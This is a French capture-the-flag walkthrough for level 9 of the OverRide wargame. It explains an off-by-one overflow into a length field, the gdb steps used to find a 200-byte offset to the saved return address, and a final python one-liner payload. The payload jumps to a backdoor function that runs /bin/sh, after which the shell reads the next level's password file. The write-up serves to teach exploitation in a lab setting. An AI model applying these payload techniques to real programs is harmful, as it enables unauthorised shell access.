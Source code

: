 # Walkthrough du Level09 - OverRide

## Objectif

Obtenir un shell via une faille de débordement dans la structure `s_message` en exploitant une fonction non appelée `secret_backdoor`.

---

## Analyse du programme

Le binaire demande :

- Un **username** (via `set_username`)
- Un **message** (via `set_msg`)

Il utilise une structure :

```c
struct s_message {
    char message[140];       // offset 0
    char username[40];       // offset 140
    int len_message;         // offset 180
};
```

### Fonction `set_username`

```c
for (i = 0; i <= 40 && input[i] != '\0'; i++) {
    msg->username[i] = input[i];
}
```

- Boucle de **0 à 40** = **41 itérations** → **overflow de 1 octet** sur `len_message` (situé après `username`)

### Fonction `set_msg`

```c
strncpy(msg->message, input, msg->len_message);
```

- `len_message` contrôle la **taille de copie** → si on l'écrase avec `\xff` (255), on déclenche un **débordement** sur la pile.

### Fonction `secret_backdoor`

```c
void secret_backdoor(void) {
    char buffer[128];
    fgets(buffer, 128, stdin);
    system(buffer);
}
```

- Non appelée normalement, mais si on modifie le **retour** de `handle_msg`, elle peut être exécutée.

---

## Plan d'exploitation

1. **Overflow sur len_msg**  avec 1 byte `\xff`
2. **Trouver l'addresse de secre_backdoor**
3. **Calcul de l'offset** jusqu'à `RIP`
4. **Ecrasement de RIP** avec l'adresse de `secret_backdoor`

---


## Adresse de la backdoor

Pendant que on est dans gdb et sur un breakpoint on en profite pour recuperer l'addresse de secret_backdoor

```bash
gdb> info functions
...
0x000055555555488c  secret_backdoor
```

On utilisera cette adresse dans notre payload.
---

## Détermination de l'offset

On envoie un motif unique de test :

```bash
r < <(python -c'print"A"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"')
```
On rentre le resultat dans Wire Mask mais il ne semble pas trouver d'offset....

On tente alors une autre approche pour trouver l'offset:
On break sur main puis on fait un disas de `handle_msg`.
```
(gdb) disas handle_msg
Dump of assembler code for function handle_msg:
   0x00005555555548c0 <+0>:     push   %rbp
   0x00005555555548c1 <+1>:     mov    %rsp,%rbp                       //Nouveau rbp
   0x00005555555548c4 <+4>:     sub    $0xc0,%rsp
   0x00005555555548cb <+11>:    lea    -0xc0(%rbp),%rax
   .............................
   0x000055555555490d <+77>:    mov    %rax,%rdi
   0x0000555555554910 <+80>:    callq  0x5555555549cd <set_username>
   0x0000555555554915 <+85>:    lea    -0xc0(%rbp),%rax
   ..............................
   0x0000555555554931 <+113>:   retq  
```
On constate que $rax est a 0xc0 de $rbp et que on alloue cette addresse à rdi qui sera passé en argument à set_username pour stocker l'input utilisateur donc notre buffer.

On sait que l'addresse de retour se situe sur rbp + 8 une fois dans handle_msg.

Donc on break sur set_username et puis on fait le calcul pour connaitre l'offset:
```
(gdb) b *0x0000555555554910
(gdb) print $rbp + 8 - $rdi
$2 = (void *) 0xc8
```
0xc8 = 200. On a notre offset


---

## Payload final

Payload formaté en ligne de commande :

```bash
(python -c 'print "B"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n/bin/sh\n"'; cat) | ./level09
```

---

## Résultat

```bash
whoami
level10
cat /home/users/level10/.pass
<flag>
```

---

## Explication de chaque étape

- **40 'B'** : remplissent `username`
- **+1 **`` : overflow de `len_message`
- **+200 'B'** : overflow jusqu'à RIP
- **adresse** : `secret_backdoor()`
- `` : passé à `system()` dans `secret_backdoor`

---
